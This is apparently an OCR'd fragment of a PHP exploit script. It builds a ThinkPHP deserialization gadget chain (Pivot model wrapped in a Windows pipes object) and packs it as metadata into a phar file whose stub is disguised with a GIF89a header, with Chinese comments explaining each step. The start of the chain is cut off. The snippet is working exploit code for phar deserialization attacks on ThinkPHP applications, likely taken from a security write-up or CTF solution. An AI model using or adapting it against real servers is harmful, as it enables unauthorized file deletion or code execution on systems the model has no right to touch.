 ```bash
    {
        use model\concern\Attribute;
        use model\concern\Conversion;
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model
    {
        public function __construct()
        {
            $this->get();
        }
    }
}

namespace {

    $conver = new think\model\Pivot();
    $a = new think\process\pipes\Windows($conver);


    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置stub
    $phar->setMetadata($a); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
    $phar->stopBuffering();
}
?>
```
